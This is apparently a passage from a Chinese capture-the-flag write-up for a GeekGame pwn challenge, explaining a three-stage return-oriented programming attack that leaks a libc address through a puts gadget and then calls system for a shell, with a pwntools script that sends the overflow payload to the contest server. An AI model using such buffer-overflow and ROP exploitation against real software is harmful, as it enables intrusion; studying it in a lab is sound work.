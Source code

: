 虽然不能只控制rdi，但main函数里有从rbx里取rdi并直接调用puts的代码片段

![image-20231021134038449](writeup_gzz.assets/image-20231021134038449.png)

并且我们有控制rbx, rbp, r12的gadget。也就是说我们可以先存下rbx，再跳到main中间0x4012e3让它打出rbx对应地址的内容。完成这一切后我们再第三次跳回main，此时我们已经有了libc基址，可以调用system了。

总结一下就是进了三次main，第一次在栈上留下「pop rbx gadget; libc_start_main got; dummy; dummy; ret to middle of main (0x4012e3); .... ; ret to main」，第二次得到基址，第三次在栈上留下「ret; ret rdi (in libc); binsh (in libc); ret to libc system」，第三次返回以后就可以拿到shell了。

```python
import os
from pwn import *

libc_binary = ELF('./libc.so.6', checksec=False)
ld_binary = ELF('./ld-linux-x86-64.so.2', checksec=False)
challenge2_binary = ELF('./challenge2')

puts_plt = challenge2_binary.plt['puts']
libc_start_main_got = challenge2_binary.got['__libc_start_main']
main = challenge2_binary.symbols['main']

p = remote('prob11.geekgame.pku.edu.cn', 10011)
print(p.recv())
p.send(b'1028:MEUCICxMvhT6LqfaBQVlVes6jggfPmSUUQI0e8YP4ibd7XNbAiEAu_YOxkt9PkQsDNSHz53vvMKnJ6CFmwfdZQF_NnxyIkw=\n')

# just an example run to deduce offsets..
tmp_addr_buf2 = 0x00007fff2c3d4810  # what will you do
tmp_addr_buf1 = 0x00007fff2c3d4850  # flag again.
tmp_addr_ret = 0x00007fff2c3d4888

gadget_poprbxrbpr12 = 0x401300
#  midmain_printf = 0x401276  # will crash before final rop. alas.
midmain_puts = 0x4012e3
gadget_singleret = 0x401304

p.recvuntil(b'please enter your flag~(less than 0x20 characters)\n')
p.send(b'skipthis.\n')
p.recvuntil(b'What will you do to capture it?:\n')
p.send(b'skipthis.\n')
info('leaking base..')
p.recvuntil(b'\n and your flag again? :')
p.send(b'z' * (tmp_addr_ret - tmp_addr_buf1)
       + p64(gadget_poprbxrbpr12)
       + p64(libc_start_main_got) + p64(0) + p64(0)
       + p64(midmain_puts) + b'\n')
# we in theory should add address back to main at some place,
# however, even we did not do so, in reality it jumps back to some
# random place in libc main and gets back to main successfully..
p.recvuntil(b'go0d_j0b_und_go0d_luck~:)\n')

libc_start_main_addr = p.recvuntil(b'\ngo0d_j0b_und_go0d_luck~:)\n', drop=True)
print(libc_start_main_addr)
libc_start_main_addr = u64(libc_start_main_addr + b'\x00' * (8 - len(libc_start_main_addr)))
info('libc_start_main %x', libc_start_main_addr)

```